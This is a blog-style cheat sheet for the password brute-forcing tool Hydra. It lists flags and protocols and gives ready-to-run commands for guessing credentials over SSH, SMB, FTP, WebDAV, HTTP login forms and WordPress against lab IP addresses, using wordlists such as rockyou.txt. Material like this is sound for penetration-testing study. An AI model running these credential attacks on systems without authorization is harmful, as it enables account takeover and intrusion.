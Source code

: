 +++
author = "Noobosaurus R3x"
title = "Hydra Cheat Sheet"
date = "2023-07-18T01:31:00Z"
description = "Hydra Cheat Sheet"
type = [
    "posts"
]
categories = [
    "cheat-sheets"
]
tags = [
    "cheat-sheets"
]
+++
---
# **Basic syntax :**
```bash
hydra [options] <IP> <protocole> 
```
---
## Some flags :

`-h` Show help menu  
`-l <username>` Username/login  
`-L <wordlist>` Usernames/login wordlist  
`-p <password>` Password  
`-P <wordlist>` Passwords wordlist  
`-s <PORT>` Specify port  
`-f` Stop bruteforce as soon as username and password are found  
`-R` Restore previous session  
`-t <number>` Number of threads  
`-V` Verbosity  

## Some protocols :

SSH, FTP, POP3, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-HEAD, HTTP-POST, HTTP-GET, IMAP, SMB, SMTP, MySQL, etc...

## Examples :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 ssh

hydra -L top-usernames-shortlist.txt -P rockyou.txt 192.168.10.10 smb
```

## Bruteforce HTTP Post form :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 http-post-form "/login:username=admin&password=^PASS^:F=Your password is incorrect
```

## Bruteforce Wordpress :
```bash
hydra -l admin -P rockyou.txt 192.168.10.10 -V http-form-post '/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

## Bruteforce FTP :
```bash
hydra -L /path/to/userlist.txt -P /path/to/pasword_list.txt 10.10.10.10 -t 4 ftp
```

## Bruteforce WebDav : 
```bash
hydra -L /path/to/userlist.txt -P path/to/pasword_list.txt 10.10.10.10 http-get /webdav
```
---
If you want to watch my video on hydra (in french only) : 
{{< youtube id="Fu6Xn8RpO7Q" >}}